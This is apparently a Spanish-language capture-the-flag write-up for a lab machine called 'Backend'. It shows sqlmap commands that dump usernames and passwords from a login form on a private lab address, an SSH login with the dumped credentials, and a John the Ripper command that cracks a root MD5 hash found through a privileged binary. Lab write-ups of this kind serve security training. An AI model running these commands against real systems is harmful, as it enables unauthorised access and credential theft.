# Backend

Laboratorio para practicar inyección SQL con sqlmap para volcar credenciales y acceder por SSH.

## ESCANEO DE PUERTOS



Observamos la web y vemos que muestra por el navegador.



## BÚSQUEDA DE DIRECTORIOS



Encontramos directorios los cuales investigaremos



Pero desde el apartado login haremos la intrusión



Probamos credenciales para ver su resulado



## INTRUSIÓN MEDIANTES SQLMAP

`sqlmap -u http://172.17.0.2/login.html --forms --dbs --batch`



`sqlmap -u http://172.17.0.2/login.html --forms -D users --tables --batch`



`sqlmap -u http://172.17.0.2/login.html --forms -D users -T usuarios --columns --batch`



`sqlmap -u http://172.17.0.2/login.html --forms -D users -T usuarios -C username,password --dump --batch`



Accedemos por SSH con el usuario pepe



## ESCALADA DE PRIVILEGIOS

Buscamos los binarios y cuales podemos ejecutar



Destacamos:

`grep`

ls (para listar directorios como /root)



Encontramos el siguiente archivo que mostraremos con grep



Guardaremos ese fragmento en un archivo hash y lo descifraremos con jhon the ripper

`john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 hash`



Accedemos a root usando esta credencial

